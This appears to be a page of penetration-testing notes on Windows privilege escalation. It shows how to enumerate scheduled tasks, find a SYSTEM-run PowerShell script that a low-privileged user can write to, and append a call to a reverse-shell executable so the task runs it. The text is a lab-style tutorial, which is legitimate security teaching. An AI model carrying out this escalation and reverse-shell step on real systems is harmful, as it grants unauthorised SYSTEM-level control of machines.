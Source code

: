 # Scheduled Tasks

Windows can be configured to run tasks at specific times, periodically \(e.g. every 5 mins\) or when triggered by some event \(e.g. a user logon\). Tasks usually run with the privileges of the user who created them, however administrators can configure tasks to run as other users, including SYSTEM.

Unfortunately, there is no easy method for enumerating custom tasks that belong to other users as a low privileged user account.

List all scheduled tasks your user can see:

```text
schtasks /query /fo LIST /v
```

In PowerShell:

```text
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

Often we have to rely on other clues, such as finding a script or log file that indicates a scheduled task is being run.

in this example we find a powershell script that will clean up our old dev logs every minute.

![](../../../.gitbook/assets/image%20%28153%29.png)

This script seems like it is running every minute as the SYSTEM user. We can check our privileges on this script using accesschk.exe:

```text
accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```

![](../../../.gitbook/assets/image%20%28152%29.png)

It appears we have the ability to write to this file

Backup the script:

```text
copy C:\DevTools\CleanUp.ps1 C:\Temp\
```

start a listener on your side, create a reverse shell and Use echo to append a call to our reverse shell executable to the end of the script:

```text
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

Wait for the scheduled task to run \(it should run every minute\) to complete the exploit.

![](../../../.gitbook/assets/image%20%28149%29.png)







